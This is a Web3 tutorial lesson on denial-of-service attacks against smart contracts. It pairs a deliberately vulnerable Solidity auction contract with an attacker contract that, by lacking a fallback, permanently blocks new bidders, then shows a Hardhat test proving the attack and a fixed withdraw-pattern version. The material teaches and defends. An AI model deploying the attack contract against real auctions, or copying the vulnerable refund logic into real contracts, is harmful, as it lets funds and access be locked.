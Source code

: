 # 🛡️ Deny users from accessing a smart contract

![image](https://user-images.githubusercontent.com/16539849/174761638-cf7c28d6-f654-4f5b-8fab-569ddc968941.png)

A Denial of Service (DOS) attack is a type of attack that is designed to disable, shut down, or disrupt a network, website, or service. Essentially it means that the attacker somehow can prevent regular users from accessing the network, website, or service therefore denying them service. This is a very common attack which we all know about in web2 as well but today we will try to imitate a Denial of Service attack on a smart contract

<Quiz questionId="545bcf50-01b7-43c6-9abd-d76200651f1c" />
<Quiz questionId="2273400b-2667-4462-a6e1-2076fa078f50" />

## 🤔 Overview

There will be two smart contracts - `Good.sol` and `Attack.sol`. `Good.sol` will be used to run a sample auction where it will have a function in which the current user can become the current winner of the auction by sending `Good.sol` higher amount of ETH than was sent by the previous winner. After the winner is replaced, the old winner is sent back the money which he initially sent to the contract.

`Attack.sol` will attack in such a manner that after becoming the current winner of the auction, letsit will not allow anyone else to replace it even if the address trying to win is willing to put in more ETH. Thus `Attack.sol` will bring `Good.sol` under a DOS attack because after it becomes the winner, it will deny the ability for any other address to becomes the winner.

## ⚒️ Build

### Setting up Hardhat

To start the project, open up your terminal and create a new project directory.

```bash
mkdir denial-of-service
```

Let's start by setting up Hardhat inside the `denial-of-service` directory.

```bash
cd denial-of-service
npm init --yes
npm install --save-dev hardhat @nomicfoundation/hardhat-toolbox
npx hardhat
```

when prompted, choose the `Create a Javascript Project` option and follow the steps.

### Write the Smart Contracts

Let's create the auction contract, named `Good.sol`, with the following code.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract Good {
    address public currentWinner;
    uint public currentAuctionPrice;

    constructor() {
        currentWinner = msg.sender;
    }

    function setCurrentAuctionPrice() public payable {
        require(msg.value > currentAuctionPrice, "Need to pay more than the currentAuctionPrice");
        (bool sent, ) = currentWinner.call{value: currentAuctionPrice}("");
        if (sent) {
            currentAuctionPrice = msg.value;
            currentWinner = msg.sender;
        }
    }
}
```

This is a pretty basic contract which stores the address of the last highest bidder, and the value that they bid. Anyone can call `setCurrentAuctionPrice` and send more ETH than `currentAuctionPrice`, which will first attempt to send the last bidder their ETH back, and then set the transaction caller as the new highest bidder with their ETH value.

Now, create a contract named `Attack.sol` within the `contracts` directory and write the following lines of code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

import "./Good.sol";

contract Attack {
    Good good;

    constructor(address _good) {
        good = Good(_good);
    }

    function attack() public payable {
        good.setCurrentAuctionPrice{value: msg.value}();
    }
}
```

This contract has a function called `attack()`, that just calls `setCurrentAuctionPrice` on the `Good` contract. Note, however, this contract does not have a `fallback()` function where it can receive ETH. More on this later.

### Writing the Test

Let's create an attack that will cause the `Good` contract to become unusable. Create a new file under `test` folder named `attack.js` and add the following lines of code to it

```javascript
const { expect } = require("chai");
const { ethers } = require("hardhat");

describe("Denial of Service", function () {
  it("After being declared the winner, Attack.sol should not allow anyone else to become the winner", async function () {
    // Deploy the good contract
    const Good = await ethers.getContractFactory("Good");
    const goodContract = await Good.deploy();
    await goodContract.deployed();
    console.log("Good Contract's Address:", goodContract.address);

    // Deploy the Attack contract
    const Attack = await ethers.getContractFactory("Attack");
    const attackContract = await Attack.deploy(goodContract.address);
    await attackContract.deployed();
    console.log("Attack Contract's Address", attackContract.address);

    // Now let's attack the good contract
    // Get two addresses
    const [_, addr1, addr2] = await ethers.getSigners();

    // Initially let addr1 become the current winner of the auction
    let tx = await goodContract.connect(addr1).setCurrentAuctionPrice({
      value: ethers.utils.parseEther("1"),
    });
    await tx.wait();

    // Start the attack and make Attack.sol the current winner of the auction
    tx = await attackContract.attack({
      value: ethers.utils.parseEther("3"),
    });
    await tx.wait();

    // Now let's trying making addr2 the current winner of the auction
    tx = await goodContract.connect(addr2).setCurrentAuctionPrice({
      value: ethers.utils.parseEther("4"),
    });
    await tx.wait();

    // Now let's check if the current winner is still attack contract
    expect(await goodContract.currentWinner()).to.equal(attackContract.address);
  });
});
```

Notice how `Attack.sol` will lead `Good.sol` into a DOS attack. First `addr1` will become the current winner by calling `setCurrentAuctionPrice` on `Good.sol` then `Attack.sol` will become the current winner by sending more ETH than `addr1` using the attack function. Now when `addr2` will try to become the new winner, it won't be able to do that because of this check(`if (sent)`) present in the `Good.sol` contract which verifies that the current winner should only be changed if the ETH is sent back to the previous current winner.

Since `Attack.sol` doesn't have a `fallback` function which is necessary to accept ETH payments, `sent` is always `false` and thus the current winner is never updated and `addr2` can never become the current winner

### Test the attack

To run the test, in your terminal pointing to the root directory of this level execute the following command

```bash
npx hardhat test
```

When the tests pass, you will notice that the `Good.sol` is now under DOS attack because after `Attack.sol` becomes the current winner, on other address can becomes the current winner.

<Quiz questionId="cb1beb74-071c-4e66-af53-897663e88a0c" />

## 👮 Prevention

- You can create a separate withdraw function for the previous winners.

Example:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

contract Good {
    address public currentWinner;
    uint public currentAuctionPrice;
    mapping(address => uint) public balances;

    constructor() {
        currentWinner = msg.sender;
    }

    function setCurrentAuctionPrice() public payable {
        require(msg.value > currentAuctionPrice, "Need to pay more than the currentAuctionPrice");
        balances[currentWinner] += currentAuctionPrice;
        currentAuctionPrice = msg.value;
        currentWinner = msg.sender;
    }

    function withdraw() public {
        require(msg.sender != currentWinner, "Current winner cannot withdraw");

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}
```

<Quiz questionId="0d64b651-3b16-4893-8486-87f3008857a1" />
<Quiz questionId="eae0a815-5407-4ba6-8194-4902ef360a54" />
<Quiz questionId="cdabfe76-94aa-4aaa-90b8-5d3df2d1aa0d" />

## 👋 Conclusion

Hope you learnt something from this level. If you have any questions or feel stuck or just want to say Hi, hit us up on our [Discord](https://discord.gg/learnweb3). We look forward to seeing you there!

<SubmitQuiz />
